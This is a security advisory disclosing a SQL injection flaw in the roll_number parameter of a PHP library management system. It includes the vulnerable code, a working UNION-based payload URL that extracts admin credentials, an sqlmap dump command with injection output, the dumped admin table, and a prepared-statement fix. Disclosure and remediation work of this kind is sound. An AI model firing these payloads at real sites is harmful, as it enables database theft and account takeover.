

# Advanced-Library-Management-System-Project-in-PHP-with-Barcode-individual_report_search.php
## SQL Injection Vulnerability in `individual_report_search.php` (parameter: `roll_number`, GET)

- **Vendor:** ProjectWorlds
- **Product:** Advanced Library Management System Project in PHP with Barcode
- **Affected Version:** 1.0 (master branch)
- **Vendor Homepage:** https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/
- **Vulnerability Type:** SQL Injection (CWE-89)
- **Affected File:** `individual_report_search.php`
- **Affected Parameters:** `roll_number`
- **CVSS Score:** 9.1 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`
- **Discover Date:** 2026-10-07
- **Researcher:** Shailendra Mourya (CyberShailendra)
- **Researcher Website:** https://cybershailendra.cyou
- **Entry:** VDB-*****
- **CVE ID:** CVE-2026-***
- **Test Environment:** Local VMware lab (CyberShailendra VM), Apache 2.4.58, PHP 8.0.30, MySQL ≥5.1 (MariaDB fork), Windows host
- **Tool Chain:** Manual `curl`/Burp verification + `sqlmap` automated confirmation & dump

---

## Summary
`individual_report_search.php` passes the GET parameter `roll_number` directly into a `SELECT * FROM user WHERE roll_number = '...'` query with no sanitization. Because it is **GET-based**, the entire payload is visible/shareable as a single URL — making this the most trivially exploitable and most "linkable" injection point in the application (one-click exploitation / phishing-link potential).

## Vulnerable Code (Logic Point)
```php
// individual_report_search.php
$roll_number = $_GET['roll_number'];
$sql = mysqli_query($con, "SELECT * FROM user WHERE roll_number = '$roll_number'");
$user_row = mysqli_fetch_assoc($sql);
// $user_row['user_id'] is then reused, unvalidated, in a SECOND raw query lower in the file
// (second-order injection surface)
echo $user_row['firstname']; // reflected directly into page output
```

**Bug class:** CWE-89 (SQL Injection) + reflected field also creates a secondary CWE-79 (XSS) risk since `firstname` is echoed without `htmlspecialchars()`.

## Proof of Concept

### Manual (curl, GET-based — just a URL)
```text
http://<domain>/individual_report_search.php?roll_number=' UNION SELECT 1,2,(SELECT group_concat(username,0x3a,password SEPARATOR 0x7c) FROM admin),4,5,6,7,8,9,10,11-- -
```

### Automated (sqlmap) — actual run output
```bash
sqlmap -u ".../individual_report_search.php?roll_number=CSE001" \
  --cookie="PHPSESSID=<session>" -p roll_number --batch -D project_library -T admin --dump
```

```text
[INFO] target URL appears to have 11 columns in query
[INFO] GET parameter 'roll_number' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
Parameter: roll_number (GET)
    Type: boolean-based blind — roll_number=CSE001' AND 8121=8121-- UlZK
    Type: time-based blind   — roll_number=CSE001' AND (SELECT 9484 FROM (SELECT(SLEEP(5)))kWDW)-- HRxK
    Type: UNION query, 11 columns
```

**Result — full `admin` table dumped (same 2 entries, plaintext passwords `admin123` / `librarian123`):**

| admin_id | email_id | adhaar_id | contact | lastname | password | username | firstname | admin_type |
|---|---|---|---|---|---|---|---|---|
| 1 | johndoe@example.com | 123456789012 | 9876543210 | Doe | **admin123** | admin | John | Admin |
| 2 | janesmith@example.com | 210987654321 | 9876543211 | Smith | **librarian123** | jane.librarian | Jane | Librarian |

### Proof Screenshot


Only 95 HTTP requests needed (vs 336–723 for the POST-based endpoints) — this is the **fastest and cheapest** injection point to exploit because GET parameters need no form/session-state replay.

## Impact
- **CVSS 3.1 estimate: 9.1 (Critical)** — GET-based, trivially shareable as a URL/phishing link, fewer defenses (no CSRF token needed since it's a simple navigation), yields full credential dump.
- One-click exploitation potential: a crafted link sent to a logged-in librarian/admin, wrapped in an auto-loading ``/`<iframe>`, would silently trigger the query (blind exfiltration would additionally need an out-of-band channel since GET responses aren't visible cross-origin, but local/same-tab clicks fully expose data).

## Remediation
Convert to prepared statement; never trust GET input for raw SQL construction:
```php
$stmt = mysqli_prepare($con, "SELECT * FROM user WHERE roll_number = ?");
mysqli_stmt_bind_param($stmt, "s", $roll_number);
mysqli_stmt_execute($stmt);
```
Also `htmlspecialchars($user_row['firstname'])` before echoing.


